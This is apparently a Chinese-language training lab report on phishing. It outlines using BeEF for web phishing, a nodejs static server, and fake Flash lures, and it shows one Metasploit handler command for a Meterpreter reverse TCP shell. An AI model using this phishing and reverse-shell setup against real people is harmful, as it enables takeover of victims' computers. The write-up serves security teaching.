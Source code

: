 ```yaml
---
title: 网络安全实训1——网络钓鱼攻击
tags:
  - 网络安全实训
  - 网络钓鱼攻击
categories:
  - 网络安全
  - 实训
  - 实验报告
cover: "https://th.bing.com/th/id/OIP.xeYJki3WJOfp7jnGa3sS6QHaEK?w=287&h=180&c=7&r=0&o=5&pid=1.7"
abbrlink: 1536eb66
date: 2024-07-11 08:14:24
---
```


# 网络钓鱼攻击

> 可能需要的：[kali Linux 切换镜像源](https://blog.w1ndys.top/posts/3073af94)

## 安装并启动

![image-20240711083230622](../img/zuolao/1/image-20240711083230622.png)

## 利用 BeEF 进行网页钓鱼攻击

![image-20240711084432017](../img/zuolao/1/image-20240711084432017.png)

## 利用 nodejs 开启静态服务

> 补充利用 nodejs 开启静态服务
>
> ```bash
> sudo apt update
> sudo apt install nodejs npm
> ```
>
> 安装完成后进入你的静态文件所在目录
>
> 开启命令行
>
> ```bash
> http-server
> ```

![image-20240711084857787](../img/zuolao/1/image-20240711084857787.png)

![image-20240711085531378](../img/zuolao/1/image-20240711085531378.png)

## 成功上线

![image-20240711085547978](../img/zuolao/1/image-20240711085547978.png)

## 发送警告命令

![image-20240711085907974](../img/zuolao/1/image-20240711085907974.png)

## 通过 flash 钓鱼获取目标控制权

```bash
msf6 > handler -H 127.0.0.1 -P 4444 -p windows/meterpreter/reverse_tcp
```

![image-20240711094156735](../img/zuolao/1/image-20240711094156735.png)

![image-20240711094705116](../img/zuolao/1/image-20240711094705116.png)

![image-20240711095518328](../img/zuolao/1/image-20240711095518328.png)

![image-20240711095843697](../img/zuolao/1/image-20240711095843697.png)

![image-20240711095854111](../img/zuolao/1/image-20240711095854111.png)

![image-20240711101710871](../img/zuolao/1/image-20240711101710871.png)
